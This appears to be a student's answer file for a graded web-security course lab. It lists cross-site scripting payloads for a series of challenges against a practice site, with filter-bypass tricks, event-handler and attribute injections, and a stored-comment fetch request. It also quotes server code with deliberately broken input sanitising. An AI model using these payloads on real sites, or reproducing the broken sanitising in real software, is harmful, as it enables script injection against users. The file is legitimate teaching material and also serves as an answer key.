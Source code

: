 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success()</script>
```

# 2. No Script Allowed (3 points)

```
<script>success()</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<sscriptcript>success()</sscriptcript>
```

# 4. An Open-and-Shut Case (3 points)

```
<SCRIPT>success()</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
<sCrIpT>success()</sCrIpT>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<img src='x' onerror='success()'>
```

# 7. Between a Rock And a Hard Place (3 points)

```
<body onpageshow=success()></body>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>success()</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  q = q.replace('<', '')
  q = q.replace('>', '')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
"onload=success()
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
""onload=success()
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  q.replace('"', '&quot;')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
'onload=success()
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  q.replaceAll('"', '&quot;')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
http://caloogle.xyz:4140/search?q=&lang=es%20onload=success()
```

# 15. The Early Bird Catches the Worm (3 points)

```
</script><script>success()</script>
```

# 16. Tying Up Loose Ends (3 points)

```
</<<//script><script>success()</<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
fetch('/comment',{
	method:'POST',
	headers:{
		'Content-Type':'application/json'
	},
        body:'{"text":"search","id":"success()"}'
})
.then(function(response){
	response.json()
})
.then(function(data){
	window.location.reload();
});
```

# 18. Congrats

N/A

# Survey responses (3 points)

Write your survey responses in SURVEY.md!
